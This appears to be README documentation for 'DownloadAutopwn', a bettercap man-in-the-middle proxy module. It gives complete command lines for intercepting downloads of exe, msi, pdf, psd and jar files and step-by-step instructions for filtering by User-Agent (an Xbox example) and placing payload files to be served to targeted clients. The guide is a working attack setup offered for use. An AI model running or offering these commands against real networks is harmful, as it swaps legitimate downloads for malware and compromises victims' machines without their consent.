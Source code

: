 # DownloadAutopwn documentation

<br>

## Options

`--download-autopwn-extensions EXT1,EXT2`

`--download-autopwn-useragents AGENT1,AGENT2`

`--download-autopwn-path bettercap-proxy-modules/http/download_autopwn`

`--download-autopwn-port 8042`

**Example:**

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents windows,xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn --download-autopwn-port 8043
```

<br><br>


## Adding User-Agents

The `--download-autopwn-useragents` option scans for names of folders in the path that you specified with `--download-autopwn-path`.

Let's say we want to add an option for xbox User-Agents.

First, we make a new folder called **xbox** in our `--download-autopwn-path` directory.


**1.** `mkdir bettercap-proxy-modules/http/download_autopwn/xbox`

Next, we save our User-Agent string(s) in a file called **user-agents.bettercap**.
These strings will detect requests coming from xbox User-Agents.

After a quick Google search we find this User-Agent string:

**Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; Trident/6.0; Xbox; Xbox One)**

Looks like this string will do the trick: `Xbox`

**2.** `echo "Xbox" > bettercap-proxy-modules/http/download_autopwn/xbox/user-agents.bettercap`

**3.** Move your payload files to the folder that you just made.

![screenshot from 2017-08-02 14-45-37](https://user-images.githubusercontent.com/29265684/28858081-62799b8c-7791-11e7-9e61-3136a3d1f7ef.png)

**4. Done.**

Test out your new User-Agent config using the following command:

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn
```
